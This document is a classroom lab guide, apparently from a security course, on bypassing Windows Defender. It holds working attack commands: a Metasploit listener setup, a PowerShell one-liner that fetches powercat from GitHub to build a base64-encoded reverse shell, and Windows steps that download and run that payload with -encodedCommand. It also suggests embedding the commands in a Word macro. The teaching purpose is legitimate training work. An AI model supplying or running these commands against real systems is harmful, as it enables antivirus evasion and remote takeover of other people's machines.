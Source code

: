 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: false
---
```


# Bypassing Windows Defender

## Discussion

Windows Defender is a powerful access control and antivirus software solution. It is updated automatically in the background on Windows systems. Many organizations are using it instead of having to purchase enterprise antivirus solutions which is just one more product to keep track of for security professionals. It also has a feature that will send a file that is not signed with a certificate to Microsoft servers for analysis. It will alert and delete the offending file.

Threat actors take advantage of a variety of methods to bypass Windows Defender and other antivirus solutions.

## Lab Preparation

1. You need your Windows 10 system
2. Kali should be on your WAN segment (because of the reverse backdoor and it is the c2 server)
3.  Start a listener with Metasploit

    ```
        a. **use exploit/multi/handler**

        b. **Set PAYLOAD cmd/unix/reverse_netcat**

        c. Set the LHOST to your Kali IP

        d. Set the LPORT to **4433**

        e. Check your options to be sure it looks good

        f. Run: **exploit**
    ```

## Start the lab

Open a new terminal in your Kali workstation. Become the root user:

**sudo su -**

Run the following command and change **KALI\_IP** to your Kali IP:

pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1') ; powercat -c **KALI\_IP** -p **4433** -e cmd.exe -ge" > /var/www/html/backup.bat

The commands above uses Powershell for Linux (**pwsh**) to download (**iex**) a file from a remote server (**New-Object System.Net.Webclient**)**.DownloadString**). The file it downloads is Powercat. Powercat is a Powershell version of ncat like the labs you did earlier in the semester. The semicolon separates commands. The next command it is going to run is to set the IP of your Kali machine and set the Port number to connect to it and execute cmd.exe when someone connects (**-e cmd.exe**). It will generate the code to connect to your Kali server, but it will encode the commands using base64 (**-ge**). Base64 is an encoding format that is generally used to convert binary data to ASCII or standard characters. The generated payload will be save do the web root (\*\* > /var/www/html/backup.bat\*\*)

***

## Base64

Below is a quick tutorial on Base64 encoding.

> **Base64 Exercise:**

```
Open a new Kali terminal.

Run the command:

**echo hello | base64**

You should see:  **aGVsbG8K**

Note how the output is a string of text.  If you look at your partner’s, you’ll see they have the exact same output from running the command.

Now to decode the base64 back to the text “hello” run:

**echo aGVsbG8K** | **base64 -d**

**-d means to decode**.

Note how it is back to the normal “hello” text.

Base64 is used by threat actors to hide their activity. Note, however, you can decode it when you detect it.
```

***

## Back to the bypassing defender Lab

Run the command:

**cat /var/www/html/backup.bat**

That is a lot of base64 encoding. The full output of the encoding can be decoded with:

**cat /var/www/html/backup.bat | base64 -d**

The output is the Windows (and Linux) scripting language called Powershell.

Check to be sure your Metasploit listener is running.

## Windows 10

Switch to your Windows 10 workstation. Remember the WinSCP file that you created?

Download it to your Windows 10 computer and run it.

What happens?

Defender is catching it as soon as it downloads so it won’t work as expected. This is where threat actors have to get creative.

## The Bypass

**NOTE: As you perform this part of the lab, what you are doing is what happens behind the scenes when someone injects malicious code into a Word document, PDF document, or some other code injection. When someone clicks the “Enable Macros” these commands will run. These exact commands can be used or a variation of the commands.**

Click on the start menu and type:

**powershell**

Then hit Enter.

That will put you in a Powershell prompt. The prompt will start with PS and have a blue background.

**e.g.**

![example](https://i.imgur.com/zSPdUJC.png)

Run the following command (The command is all one line and change **KALI\_IP** to your Kali IP):

**Invoke-webrequest -URI 'http://KALI\_IP/backup.bat' -outfile 'C:\ProgramData\backup.bat'**

Check to be sure the file downloaded with the command:

**Get-Content C:\ProgramData\backup.bat**

The output look familiar when you ran it on Linux?

Now run the command:

**powershell.exe -encodedCommand (Get-Content 'c:\ProgramData\backup.bat' -raw)**

The powershell command above decodes the base64 encoding (**-encodedCommand**) and opens the file and reads the contents (**Get-Content 'c:\ProgramData\backup.bat’**)

**Switch back to your Kali workstation** and give it a moment and you’ll see the Windows Prompt on your Windows 10 workstation.

This is one method attackers use to inject malicious code inside Word, Excel, or Powerpoint document and obtain a remote shell. If you hear about a “malicious macro,” the macro is running commands very similar to what you did. The same commands you type do work, but threat actors will change commands to try and avoid detection.

I’ll leave it up to you to learn to create a Word Macro and try the commands above. In your own time.

For the macro to work, you’ll want to combine these commands to make it easier.

**Submission:**

Create a screenshot showing the IP address of the Windows 10 from the reverse shell.
